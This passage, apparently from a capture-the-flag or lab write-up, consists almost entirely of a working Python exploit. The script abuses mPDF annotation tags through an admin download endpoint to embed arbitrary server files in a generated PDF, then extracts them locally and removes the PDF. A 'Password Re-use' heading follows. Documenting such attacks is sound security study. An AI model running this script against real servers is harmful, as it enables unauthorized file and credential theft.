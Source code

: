 ```py
payload = f'<annotation file="{file_path}" content="{file_path}" icon="Graph" title="Attached File: {file_path}" pos-x="195" />'
encode_payload = base64.b64encode(payload.encode('UTF-8')).decode('UTF-8')

# Generate pdf with our payload and get filename
filename = s.post(f"{host}/admin/download.php", data={"pdf": encode_payload})
if 'mPDF Error' in filename.text:
    exit(filename.text)
print("[+] Uploaded filename:", filename.text.strip())
print(f"[+] URL: {host}/mpdf/tmp/{filename.text.strip()}")

# Download generated file
get_file = s.get(f"{host}/mpdf/tmp/{filename.text.strip()}")
with open(filename.text.strip(), 'wb') as f:
    f.write(get_file.content)


# extract all annotations from pdf file.
def getAttachments(reader):
    """
    https://stackoverflow.com/questions/68083358/get-pdf-attachments-using-python
    """
    attachments = {}
    #go through all pages and all annotations to those pages,
    #to find any attached files
    for pagenum in range(0, reader.getNumPages()):
        page_object = reader.getPage(pagenum)
        if "/Annots" in page_object:
            for annot in page_object['/Annots']:
                annotobj = annot.getObject()
                if annotobj['/Subtype'] == '/FileAttachment':
                    fileobj = annotobj["/FS"]
                    attachments[fileobj["/F"]] = fileobj["/EF"]["/F"].get_data()
    return attachments


handler = open(filename.text.strip(), 'rb')
reader = PyPDF2.PdfFileReader(handler)
dictionary = getAttachments(reader)
for fName, fData in dictionary.items():
    with open(fName, 'wb') as outfile:
        outfile.write(fData)


# Clean CWD
os.remove(filename.text.strip())

```

## Password Re-use
